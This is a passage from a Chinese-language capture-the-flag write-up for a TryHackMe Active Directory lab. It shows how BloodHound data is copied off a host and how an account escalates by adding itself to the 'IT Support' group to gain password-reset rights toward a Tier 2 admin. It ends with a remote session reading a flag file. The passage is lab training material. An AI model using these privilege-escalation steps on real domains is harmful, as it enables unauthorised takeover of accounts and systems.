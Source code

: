 
拷贝回kali
```
┌──(root💀kali)-[~/tryhackme/ExploitingActiveDirectory]
└─# scp za.tryhackme.loc\\max.smith@thmwrk1.za.tryhackme.loc:C:/Users/max.smith/Documents/20220811094325_BloodHound.zip .
za.tryhackme.loc\max.smith@thmwrk1.za.tryhackme.loc's password: 
20220811092711_BloodHound.zip   
```

从本用户到```TIER 2 ADMINS```的一条攻击路径


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660208864433.jpg)


本用户（max）属于```Domain users```用户组

```Domain users```用户组可以添加任何成员到```IT SUPPORT```用户组

```IT SUPPORT```用户组可以强制更改用户```T2_HENRY.HARVEY```的密码

用户```T2_HENRY.HARVEY```属于```TIER 2 ADMINS```用户组



首先，将当前账号添加进```IT Support```用户组，然后用Get-ADGroupMember验证添加结果
```
PS C:\> Add-ADGroupMember "IT Support" -Members "max.smith"
PS C:\> Get-ADGroupMember -Identity "IT Support"

...
...
distinguishedName : CN=max.smith,OU=IT,OU=People,DC=za,DC=tryhackme,DC=loc 
name              : max.smith
objectClass       : user
objectGUID        : f0cd5ecd-6a42-4eff-8015-071e1dc3747b
SamAccountName    : max.smith
SID               : S-1-5-21-3885271727-2693558621-2658995185-1142


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt